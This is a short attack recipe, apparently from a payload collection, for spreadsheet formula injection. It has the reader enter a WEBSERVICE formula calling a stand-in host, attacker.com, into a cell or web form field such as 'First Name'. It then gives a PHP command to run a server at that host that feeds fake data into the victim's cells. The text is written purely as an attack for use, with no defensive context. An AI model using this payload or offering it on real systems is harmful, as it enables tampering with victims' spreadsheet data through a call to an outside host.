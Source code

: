 Use Webservice Formula to Inject fake data into Speadsheet
----------------------------------------------------------
In cell "A1" enter the following - Could be "First Name" in web form
=WEBSERVICE("http://www.attacker.com")

Run attacking server 
php -S www.attacker.com:80

On attacking server create "index.html" with content you want to change the "fake data" too.
############ Begin index.html ##################################
Fake Data
############ End index.html ####################################

To fill in multiple cells use multiple html file
############ Begin a1.html ##################################
Fake
############ End a1.html ####################################
############ Begin a2.html ##################################
Data
############ End a2.html ####################################



